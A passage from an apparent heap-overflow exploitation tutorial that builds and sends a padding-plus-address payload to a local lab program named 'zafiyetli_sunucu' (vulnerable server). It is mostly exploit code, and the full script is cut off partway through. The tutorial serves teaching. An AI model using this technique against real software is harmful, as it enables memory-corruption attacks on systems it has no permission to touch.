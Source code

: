 Now we write the stage that prepares our payloads:

```python
padding = b'A' * PADDING_SIZE
overwrite_address = struct.pack("<Q", HARDCODED_ADDRESS)
payload = padding + overwrite_address
print(f"[*] Payload {len(payload)} byte olarak olusturuldu.")
print("[*] Payload kurban programa gonderiliyor...")
```

Then we write the stage where we check the outputs of the function we injected:

```python
 stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)
    
    stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
    stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')

    print("\n--- Kurban Programdan Gelen Cikti ---")
    print(stdout_output)
    print("--- Kurbandan Gelen Hata Ciktisi (varsa) ---")
    print(stderr_output)
    print("--- Exploit Tamamlandi ---")
    
    if "KONTROL ELE GECIRILDI" in stdout_output:
        print("\n[+] Zafiyet basariyla istismar edildi!")
    else:
        print("\n[-] Istismar basarisiz oldu.")
```

And when we run our exploitation code, we see that we have successfully injected the function.

### Complete Exploitation Code

```python
import struct
import subprocess
import sys

VICTIM_PROGRAM = "./zafiyetli_sunucu"
PADDING_SIZE = 40
TARGET_ADDRESS = 0x401166

def main():
    print("--- [ATTACKER] Direct Heap Overflow Exploit Started ---")
    
    print(f"[*] Target Address: {hex(TARGET_ADDRESS)}")
    print(f"[*] Padding Size: {PADDING_SIZE}")
    padding = b'A' * PADDING_SIZE
    overwrite_address = struct.pack("<Q", TARGET_ADDRESS)
    payload = padding + overwrite_address
    print(f"[*] Payload created as {len(payload)} bytes.")
    
    try:
        p = subprocess.Popen([VICTIM_PROGRAM], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    except FileNotFoundError:
        print(f"[!] ERROR: '{VICTIM_PROGRAM}' not found.")
        sys.exit(1)
        
    print("[*] Sending payload to victim program...")
    
    stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)
    
    stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
    stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')

```